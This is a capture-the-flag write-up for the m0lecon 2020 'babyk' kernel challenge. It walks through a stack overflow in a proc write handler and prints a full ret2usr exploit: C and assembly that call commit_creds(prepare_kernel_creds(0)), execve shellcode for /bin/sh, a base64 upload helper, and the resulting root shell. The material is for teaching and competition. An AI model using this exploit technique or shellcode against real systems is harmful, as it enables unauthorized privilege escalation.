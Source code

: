 ```yaml
---
ctf_name: "m0lecon 2020 Teaser"
layout: writeup
title:	"babyk"
date:	2020-05-24
category: "pwn"
author: "nick0ve"
---
```


## The challenge
That was an introductory challenge in kernel exploitation, all modern protections were disabled, source code was given, and the vulnerability was an easy to spot buffer overflow in the write handler of the module.

```c
	char buf[BUFSIZE];

	// if(*ppos > 0 || count > BUFSIZE)
		// return -EFAULT;

	if(raw_copy_from_user(buf, ubuf, count)) // no bounds checking at all
		return -EFAULT;
```

So the plan to get root privileges is:
- take control over saved_rip with the buffer overflow
- make the kernel return to user mapped code, and execute
  commit_creds(prepare_kernel_creds(0))
- nicely switch to userspace without crashing the kernel, to spawn a shell and read the flag

### Finding the right number of A's

```bash
echo aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac > /proc/babydev
```

Gives a nice kernel panic with `RIP=0x6261616862616167` which in ascii translates to `gaabhaab`

```bash
~$ pwn cyclic -l gaab
124
```

### Putting all together

`exploit.c`
```c
#define MAP_PRIVATE     0x02    /* Changes are private.  */
#define MAP_FIXED       0x10    /* Interpret addr exactly.  */
#define MAP_ANONYMOUS   0x20    /* Don't use a file.  */
#define	O_RDWR		    0x0002  /* open for reading and writing */

typedef unsigned long long qword;

extern void kernel_shellcode();
char user_shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

qword mcpy(char * dst, char * src, qword n)
{
    for (qword i = 0; i < n; ++i)
        dst[i] = src[i];
	return n;
}

void * mmap(void * addr, qword size, qword prot, qword flags)
{
    return syscall64(9, addr, size, prot, flags, -1, 0);
}

int _start (int argc, char **argv) 
{
	char buf[0x1000];
	char * payload = buf;
    // Prepare memory for ret2usr
	void *userland_stack = mmap((void *)0xcafe000, 0x1000, 7, MAP_ANONYMOUS|MAP_PRIVATE|0x0100);
	void *userland_code = mmap((void *)0x1234000, 0x1000, 7, MAP_ANONYMOUS|MAP_FIXED|MAP_PRIVATE);
	mcpy(userland_code, &user_shellcode,sizeof(user_shellcode));
    // Fill up stack until saved_rip
	for (int i = 0;  i < 124; i++)
		*(payload++) = 'A';
	*(qword *)payload = (qword) kernel_shellcode; payload += 8;
	// Profit
	int vuln_fd = syscall64(2, "/proc/babydev", O_RDWR,100,0, 0,0);
	syscall64(1, vuln_fd, buf, payload - buf, -1,-1,-1);
	syscall64(0x60, 0, -1,-1,-1,-1,-1);
	return 0;
}
```

`exploit.S`
```nasm
.text
.intel_syntax noprefix

.global syscall64
.global kernel_shellcode

kernel_shellcode:
    # commit_cred(prepare_kernel_creds(0))
    xor rdi, rdi
    mov rcx, 0xffffffff81052a60     # cat kallsyms | grep prepare_kernel_creds
    call rcx
    mov rdi, rax
    mov rcx, 0xffffffff81052830     # cat kallsyms | grep commit_creds
    call rcx
context_switch:
    swapgs
    # ss
    mov r15, 0x2b
    push 0x2b 
    # rsp - mmapped value
    mov r15, 0xcafe000
    push r15
    # rflags - dummy value
    mov r15, 0x246
    push r15
    # cs
    mov r15, 0x33
    push r15
    # rip - mmapped value
    mov r15, 0x1234000
    push r15
    iretq
end_kernel_shellcode:
    nop

syscall64:
    pop r14
    pop r15
    push r15
    push r14
    sub rsp, 0x100

    mov rax, rdi
    mov rdi, rsi
    mov rsi, rdx
    mov rdx, rcx
    mov r10, r8
    mov r8,r9 
    mov r9, r15
    syscall

    add rsp, 0x100
    ret
```

Compilable with the command: `gcc exploit/exploit.c exploit/exploit.S -no-pie -nostdlib -fomit-frame-pointer`.

Since gcc was not available on the remote qemu instance, the exploit needed to
be compiled in local and then sent it to the remote server, this did the trick:

```python
def send_exploit(compressed_elf):
    CHUNK_SZ = 256
    for i in range(0, len(compressed_elf), CHUNK_SZ):
        chunk = compressed_elf[i: min(i + CHUNK_SZ, len(compressed_elf))]
        chunk = base64.b64encode(chunk)
        cmd = "echo %s | base64 -d  >> /home/user/exp.gz" % chunk.decode()
        p.sendline(cmd)
    p.sendline("cat /home/user/exp.gz | gzip -d > /home/user/exp")
    p.sendline("chmod +x /home/user/exp")
```

### Profit
```
/ $ /home/user/exp
/bin/sh: can't access tty; job control turned off

/ # cat /root/flag.txt
ptm{y0ure_w3lc0m3_4_4ll_th15_k3rn3l_m3g4_fun}
```

### References:
- https://mem2019.github.io/jekyll/update/2019/01/11/Linux-Kernel-Pwn-Basics.html
- https://github.com/pr0cf5/kernel-exploit-practice/tree/master/return-to-user